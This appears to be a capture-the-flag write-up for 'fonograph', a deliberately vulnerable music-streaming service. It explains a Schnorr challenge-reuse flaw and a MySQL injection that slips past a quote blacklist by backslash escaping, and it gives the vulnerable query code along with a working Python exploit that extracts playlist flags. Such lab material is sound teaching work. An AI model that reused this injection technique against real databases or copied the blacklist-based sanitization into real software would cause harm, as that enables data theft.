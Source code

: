 # fonograph

| Service     | Name                                                                                                        |
| :---------- | :---------------------------------------------------------------------------------------------------------- |
| Authors     | Francesco Felet <@PhiQuadro>, Aleandro Prudenzano <@drw0if>                                                 |
| Stores      | 1                                                                                                           |
| Categories  | crypto, web                                                                                                 |
| Port        | TCP 5000                                                                                                    |
| FlagIds     | store1: [playlist_ids]                                                                                      |
| Checkers    | [store1](/checkers/fonograph/checker.py)                                                                    |

## Description
fonograph is an Italian classical music streaming service. Users can make custom playlists out of a prefixed set of songs, served by a central entity outside of the scope of the competition. Users can choose their favorite avatar to associate to their playlist. Users can also share a token out of band that allows a friend to see the respective playlist. The token is verified via the Schnorr identification protocol.

Users can interact with the service via a python client, which has a GUI developed with pygame_gui. The communication with the server happens over websocket, with a layer of encryption using a noise protocol.

## Vulnerabilities

### Store 1 (crypto, web):
Flags are located in the descriptions of playlists created by the checker bot. Flag ids are the playlist ids relevant for the current round.

#### Vuln 1: challenge leak
The challenge provided by the server for the Schnorr identification protocol allowing for the sharing of a playlist is bound to the user and not rerandomized correctly: if an attacker manages to know it before sending the commitment, they can just craft appropriate values to pass the check. The protocol is divided in two steps (`init_get_shared_playlist` and `finish_get_shared_playlist`), rerandomization happens in the second step. An attacker can just call the first step two times to be able to craft everything needed to pass the check (after getting the public key). Fix: randomize the challenge correctly, while not breaking the protocol (the second step still needs to remember the challenge given to the user in the last invocation of the first step).

#### Vuln 2: SQL injection
All the `select` queries are built interpolating user provided parameters directly into the query.
The sanitization function that checks all the parameters is the following:
```python
def check_data(self, data):
    for d in data:
        if any([x in d for x in ["'", '"', ";", "--", "/*", "*/"]]):
            raise DBException("Invalid data")
```

While the qeueries are built like:
```python
def get_user(self, username):
    cursor = self.get_cursor()
    self.check_data([username])

    cursor.execute(f"SELECT * FROM users WHERE username = '{username}'")
    user = cursor.fetchone()

    self.commit()

    return user
```

Recalling that the used database is MySQL we can notice that the single quote (`'`) can be escaped in two ways:
- by doubling it: `''`;
- by using the common escape sequences with backslash: `\'`.

While the first one is prevented, the latter is not, and can actually be abused to perform SQL injection.
This trick can be abused in the context in which we have more than one controlled parameters, suppose we have two of them: we can use the first parameter to escape the closing quote, which gets extended to the second controlled parameter, and then the second parameter is treated as a SQL syntax.

The only available endpoint which allows at least two user controlled parameters is `get_playlist`.

Another stuff to care about is how to create the correct syntax to get the wanted playlist id, in fact the restrictions are still in place even if our payload is already out of the string literal.
There are various approaches, one of them is to build the syntax to filter on using `char(<int>)` and `concat(...)` SQL functions.

In the end a possible exploit would be:
```python
from modules.client import Client
import asyncio
import json

import sys

async def exploit(ip, flag_id):
    playlist_id = flag_id
    uri = f"ws://{ip}:5000/api"
    client = Client(uri)
    client.logger.setLevel(50)
       
    encoded_string = [hex(ord(x)) for x in playlist_id]
    encoded_string = [f"char({x})" for x in encoded_string]
    encoded_string = ",".join(encoded_string)
    encoded_string = f"concat({encoded_string})"

    request = {
        'action': 'GET_PLAYLIST',
        'params': {
            'token': f" OR p.id = {encoded_string} # ",
            'playlist_id': "\\"
        }
    }
    response = await client.send(request)
    return response["description"]

if __name__ == "__main__":
    ip = sys.argv[1]
    flag_id = sys.argv[2]
    print(asyncio.run(exploit(ip, flag_id)))
```


## Exploits

| Store | Exploit                                                                                      |
| :---: | :------------------------------------------------------------------------------------------- |
|   1   | [chall_leak](/exploits/fonograph/chall_leak.py)                                              |
|   1   | [web_exploit](/exploits/fonograph/web_exploit.py)                                            |
